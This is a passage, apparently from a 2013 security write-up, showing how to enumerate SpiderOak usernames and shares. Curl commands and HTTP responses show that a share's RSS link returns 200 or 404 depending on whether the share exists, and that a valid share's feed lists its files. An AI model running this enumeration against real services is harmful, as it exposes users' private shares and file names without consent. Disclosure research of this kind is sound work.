 So you can now run through a list of user names and score a hit for any 200's
you get back.

The next step is to enumerate shares, to do this request the share you want to
check and search the page that is returned for an RSS link in its header.

```
curl -s https://spideroak.com/browse/share/digi_public/does_exist|grep RSS
<link rel="alternate" type="application/rss+xml" title="RSS" href="/share/XXXWO2K7OB2WE3DJMM/does_exist/?rss" />
```

```
curl -s https://spideroak.com/browse/share/digi_public/not_exist|grep RSS
<link rel="alternate" type="application/rss+xml" title="RSS" href="/share/XXXWO2K7OB2WE3DJMM/not_exist/?rss" />
```

All shares, whether they exist or not, have an RSS link in the header but if
you then check the RSS link you get a 200 for valid shares but 404 for shares
which don't exist.

```
$ curl -I https://spideroak.com/share/XXXWO2K7OB2WE3DJMM/does_exist/?rss
HTTP/1.1 200 OK
Server: nginx/0.7.64
Date: Wed, 03 Apr 2013 22:30:53 GMT
Content-Type: application/atom+xml; charset=utf-8
Connection: keep-alive
Content-length: 1773
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=8640000; includeSubDomains
Set-Cookie: uid=AAAAKlFcrZ21fSDQBCdjAg==; expires=Thu, 03-Apr-14 22:30:53 GMT;
path=/
```

```
$ curl -I https://spideroak.com/share/XXXWO2K7OB2WE3DJMM/not_exist/?rss
HTTP/1.1 404 Not Found
Server: nginx/0.7.64
Date: Wed, 03 Apr 2013 22:31:18 GMT
Content-Type: text/html
Connection: keep-alive
Vary: Accept-Encoding
Vary: Accept-Encoding
Content-length: 108
Set-Cookie: uid=AAAAKlFcrba1fSDQBCd8Ag==; expires=Thu, 03-Apr-14 22:31:18 GMT;
path=/
```

So now you can spot valid shares.

If you look at the RSS feed that you get from a valid share it contains a list
of all the files in the share:

```
$ curl https://spideroak.com/share/XXXWO2K7OB2WE3DJMM/does_exist/?rss
<?xml version="1.0" encoding="utf-8"?>
<feed xmlns="http://www.w3.org/2005/Atom">
<title>does_exist: SpiderOak Share Feed by digi_public</title>
<link rel="alternate" type="text/html" href="https://spideroak.com/browse/share/digi_public/does_exist" />
<link rel="self" type="application/atom+xml" href="https://spideroak.com/browse/share_feed/digi_public/does_exist" />

<updated>2009-05-05T17:56:37Z</updated>
<id>https://spideroak.com/browse/share_feed/digi_public/does_exist</id>

<entry>
```